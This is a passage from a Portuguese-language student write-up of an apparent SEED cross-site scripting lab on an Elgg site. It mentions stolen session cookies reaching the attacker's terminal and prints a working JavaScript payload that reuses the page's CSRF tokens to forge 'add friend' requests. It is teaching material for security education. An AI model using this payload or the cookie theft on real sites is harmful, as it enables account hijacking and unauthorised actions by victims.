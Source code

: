 Por forma a melhor testar a solução encontrada, efetuou-se a autenticação de Boby e acedeu-se ao perfil de Alice.

Sem surpresa, chegou ao terminal as cookies de Boby.

![/imgs10/cookiesBoby.png](/imgs10/cookiesBoby.png)


## Tarefa 4

Por forma a perceber como executar o ataque, foi necessário compreender como funciona o mecanismo de adicionar um amigo. Com a ferramenta *HTTP Header Live* detetaram-se pedidos deste género a cada novo amigo:

![/imgs10/amizadeAliceBob.png](/imgs10/amizadeAliceBob.png)

Com a repetição de pedidos percebeu-se que a variável *friend* era igual a um identificador para a pessoa que se queria adicionar como amiga. Por outro lado, a restante parte do *link* era constituída pela sequência *ts*, *token*, *ts* e *token* que são calculados no *script* fornecido. Como tal, bastava modificar o script para:

```html
<script type="text/javascript">
window.onload = function () {
    var Ajax=null;

    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; 
    var token="&__elgg_token="+elgg.security.token.__elgg_token;

    //Construct the HTTP request to add Samy as a friend.
    var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token+ts+token;
    
    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
}
</script>
```
